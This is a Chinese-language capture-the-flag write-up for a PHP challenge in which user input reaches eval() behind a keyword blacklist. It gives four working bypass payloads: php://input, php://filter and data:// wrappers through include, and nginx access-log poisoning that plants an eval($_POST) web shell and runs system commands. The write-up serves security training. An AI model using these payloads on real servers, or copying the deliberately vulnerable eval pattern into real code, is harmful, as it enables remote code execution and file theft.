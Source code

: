 ```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 00:56:31
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤

flag

system

php

cat

sort

shell

.

空格

‘

`

echo

;

(



## 第一种方案

嵌套一个include，结合php://input

GET提交

```
?c=include$_GET[a]?>&a=php://input
```

POST提交

```
<?php system("ls");?>
```

![image-20250402174648479](./assets/image-20250402174648479.png)

```
?c=include$_GET[a]?>&a=php://input
```

```
<?php system("ls");?>
```

![](./assets/image-20250402174707076.png)



## 第二种方案

利用include结合php://filter

```
?c=include$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```

![image-20250402174830313](./assets/image-20250402174830313.png)

解码得到flag

![image-20250402175110093](./assets/image-20250402175110093.png)



## 第三种方案

利用inclue结合data://text/plain

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

![image-20250402175158946](./assets/image-20250402175158946.png)



## 第四种方案

日志注入

bp抓包，确定是nginx服务器

![image-20250402175336998](./assets/image-20250402175336998.png)

尝试利用include读取日志文件

```
?c=include$_GET[a]?>&a=../../../../../../../var/log/nginx/access.log
```

![image-20250402175432450](./assets/image-20250402175432450.png)

记录了UA信息

尝试修改请求包，修改UA注入木马

```
ra<?php @eval($_POST[a]);?>1n3
```

![image-20250402180456272](./assets/image-20250402180456272.png)

注意这里

外部拼接字符串ra1n3，然后中间是一句话木马，而当该木马成功被服务器解析后，则字符串ra1n3可以完整拼接在一起，即证明木马可用

再次读取日志文件，全局搜索ra1n3

![image-20250402180531626](./assets/image-20250402180531626.png)

即成功写入木马

然后POST直接rce

```
?c=include$_GET[a]?>&a=../../../../../../../var/log/nginx/access.log
```

```
a=system("cat flag.php");
```

![image-20250402180627123](./assets/image-20250402180627123.png)

